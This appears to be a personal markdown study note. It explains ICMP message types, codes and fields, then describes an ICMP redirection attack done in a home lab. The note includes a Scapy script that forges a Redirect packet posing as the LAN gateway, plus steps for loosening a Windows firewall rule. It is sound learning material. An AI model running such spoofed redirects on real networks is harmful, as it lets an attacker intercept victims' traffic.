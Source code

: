 # ICMP

ICMP is a layer 3 protocol that is responsible for notifying machine on the network about problems with the IP protocol, as well and managing it.

First, ICMP stands for `Internet Control Message Protocol`. The way it operates is simple, whenever there is an incident with the IP protocol, a message is sent to notify the sending computer of it. An ICMP packet is built very dynamically, there are 3 main fields in it and the rest are dependant.

## Types

Each ICMP message has a code that defines what the meaning of the message is. Here's a list:

| Type | Message                 |
| ---: | :---------------------- |
|    0 | Echo Reply              |
|    3 | Destination Unreachable |
|    4 | Source Quench           |
|    5 | Redirect                |
|    8 | Echo                    |
|   11 | Time Exceeded           |
|   12 | Parameter Problem       |
|   13 | Timestamp               |
|   14 | Timestamp Reply         |
|   15 | Information Request     |
|   16 | Information Reply       |

There were more messages added later on but we will not elaborate on them in this summary.

The most used ICMP messages are the `Echo & Echo Reply` message and the `Destination Unreachable` message.

> #### `Echo & Echo Reply`
>
> The Echo message is an "alive-check", when an echo message gets sent to a machine it will send back an echo reply message. It is a way to know if there is connectivity to a machine. That is what the ping program does.  
>
> Note: If a machine doesn't reply to an echo it does not neccesarily mean that there is no connectivity, it might be a firewall issue.

> #### `Destination Unreachable`
>
> A destination unreachable message is sent when the target machine of a packet above layer 3 is well... unreachable, this message will be sent by a router.

And a bonus message.

> #### `Redirect`
>
> A Redirect message is sent when a router (Likely the LAN's default gateway) routes a packet through another router on the same LAN as the sender machine, in that case it would be better off to send the packet straight to that other router and save a hop. So, the router will send a redirect message to the sender machine and alter their routing table so that next time they will send it to the other ruter immediately.

## Codes

Codes are just like types, but for types. Each message type has different codes that are used to define even more what is the problem. Like, message type `Redirect` has 4 codes (0, 1, 2, 3) that tell it to redirect for a whole network (0), a specific host(1), a specific service from a network (2) or a specific service from a host (3). 

`Destination Unreachable` also has codes (0, 1, 2, 3, 4, 5) for if a net (0), host (1), protocol (2) or a port (3) are unreachable, fragmentation mishap (4) or a routing failure (5).

If a type has no codes then that field will just be 0.

## The rest of the fields

The rest of the field take up the rest of the packet's buffer. The buffer is 64 bits long, 8 for Type, 8 for Code and 16 for checksum leave 32 bits for the other fields which are defualtly reserved. That is because the developers of the protocol thought that someday more types will added so dynamics are required.

The reserved 32 bit buffer is allocated according the type and code, if `Redirect` is sent then the 32 bits will be used to save the IP address of the preffered gateway. If `Destination Unreachable` is sent, the 32 bits are left empty since they have no use.

# ICMP Redirection Attack

An ICMP redirection attack takes advantage of the ICMP redirect message, and an attacker tries to place himself as a gateway for a victim machine on the local network. It is very simple. Here is the network layout:

![Network map, Kali IP change to .4 instead of .5](/Pictures/ICMP_Redirection/Network_Map.png)

The Attacker is the Kali machine (192.168.100.4).<br>
My victim is the 'Win10 - 01' machine (192.168.100.1).<br>
The machine I am going to act as a gateway to is the DC (192.168.50.1).<br>
Now, let's craft ourself a redirect packet.

```diff
- (The IP 192.168.100.5 does not exist in your map)
- (I cant understand what this sentence means)
+ Fixed and corrected the sentence.
```

*click click*... *keyboard noises*... *Head slaminh against desk*... *more keyboard noises*...

Anddddd there we go!

```
# ICMP Redirect Attack.py
# 05.02.2023
# By Timon

# Imports
from scapy.all import *

# Constants
VICTIM_IP   = "192.168.100.1"
REAL_GW     = "192.168.100.254"
ATTACKER_GW = "192.168.100.4"
TARGET_NET  = "192.168.50.1"
ICMP_TYPE   = 5
ICMP_CODE   = 1

def main():
    malicious_icmp = IP(\
                        src=REAL_GW,\       # I pose as the default gateway of the LAN.
                        dst=VICTIM_IP)/\    # Send it to the victim.
                     ICMP(\
                        type=ICMP_TYPE,\    # Enter type and code.
                        code=ICMP_CODE\
                        gw=ATTACKER_GW)/\   # GW tells victim what gw to route to instead.
                     IP(\
                        src=VICTIM_IP,\     # ICMP require the header of the IP pacet it is
                        dst=TARGET_NET)     # related to. Here we forge an IP header.
    
    send(malicious_icmp)                    # Send the packet on the wire!

if (__name__ == "__main__"):
    main()
```
A python script using scapy, creates a redirect icmp packet and sends it.

At first it did not work, and I didn't know why. The script was perfect and the victim machine recieved the packet, so it was very fraustrating ;-; . But then I found the problem!

Exhibit 1 madafaka, this bitch!

![Default rule for ICMPv4 traffic](/Pictures/ICMP_Redirection/Old_Firewall_Rule.PNG)

On windows, allegedly ICMP redirection is turned on by default. But on the firewall the ICMPv4 rule does not allow ICMP redirection packets to pass through! Only ICMP echo.

So I made my own rule:

![New rule :)](/Pictures/ICMP_Redirection/New_Firewall_Rule.PNG)

And allowed all ICMP traffic in! Like a good cybersecurity personel. Finally my victim was exposed to ICMP redirection attacks! I ran `tracert 192.158.50.1` on the victim machine and while it was running, I ran the script as well. And *voilà*! It worked!

![tracert](/Pictures/ICMP_Redirection/ICMP_Redirected_Tracert.PNG)

Here you can see a picture of the packet that were sent by the tracert.

![A packet sent to the default gateway](/Pictures/ICMP_Redirection/ICMP_Layer_2_Original.PNG)

Notice the MAC address, this one belongs to the default gateway (192.168.100.254).

![A packet sent to meeeee](/Pictures/ICMP_Redirection/ICMP_Layer_2_Changed.PNG)

The MAC address here belongs to the kali machine.
